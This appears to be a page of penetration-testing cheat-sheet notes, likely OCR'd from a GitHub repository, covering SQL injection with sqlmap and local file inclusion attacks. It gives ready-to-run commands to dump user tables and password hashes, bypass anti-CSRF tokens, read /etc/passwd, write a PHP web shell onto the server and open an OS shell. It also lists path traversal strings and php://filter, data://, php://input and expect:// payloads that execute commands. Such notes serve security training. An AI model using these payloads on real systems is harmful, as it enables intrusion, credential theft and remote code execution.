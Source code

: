     - sqlmap -u "[http://www.example.com/?id=1](http://www.example.com/?id=1)" --dump -D master -T users
    - sqlmap -u "[http://www.example.com/?id=1](http://www.example.com/?id=1)" --passwords --batch
    - Tip: The '--all' switch in combination with the '--batch' switch, will automa(g)ically do the whole enumeration process on the target itself, and provide the entire enumeration details.
- Anti-CSRF Token Bypass
    - sqlmap -u "[http://www.example.com/](http://www.example.com/)" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
- Unique Value Bypass
    - sqlmap -u "[http://www.example.com/?id=1&rp=29125](http://www.example.com/?id=1&rp=29125)" --randomize=rp --batch -v 5 | grep URI
- Calculated Parameter Bypass
    - sqlmap -u "[http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b](http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b)" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI
- OS Exploitation
    - Checking for DBA Privileges
        - sqlmap -u "[http://www.example.com/case1.php?id=1](http://www.example.com/case1.php?id=1)" --is-dba
    - sqlmap -u "[http://www.example.com/?id=1](http://www.example.com/?id=1)" --file-read "/etc/passwd"
    - Writing Local Files
        - echo '<?php system($_GET["cmd"]); ?>' > shell.php
        - sqlmap -u "[http://www.example.com/?id=1](http://www.example.com/?id=1)" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
        - curl [http://www.example.com/shell.php?cmd=ls+-la](http://www.example.com/shell.php?cmd=ls+-la)
    - OS Command Execution
        - sqlmap -u "[http://www.example.com/?id=1](http://www.example.com/?id=1)" --os-shell
        - sqlmap -u "[http://www.example.com/?id=1](http://www.example.com/?id=1)" --os-shell --technique=E

## File Inclusions

- Path Traversal
    - ../../../../etc/passwd
    - /../../../etc/passwd
- Non-Recursive Path Traversal Filters
    - ...//....//....//....//etc/passwd
- Encoding
- PHP Filters
    - ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php
    - Tip: Unlike normal web application usage, we are not restricted to pages with HTTP response code 200, as we have local file inclusion access, so we should be scanning for all codes, including `301`, `302` and `403` pages, and we should be able to read their source code as well.
    - php://filter/read=convert.base64-encode/resource=config
    - http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=config
- PHP Wrappers
    - "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
    - echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
    - echo '<?php system($_GET["cmd"]); ?>' | base64
    - Data wrapper
        - http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
    - Input wrapper
        - curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
    - Expect
        - echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
        - curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id”
- RFI
    - echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include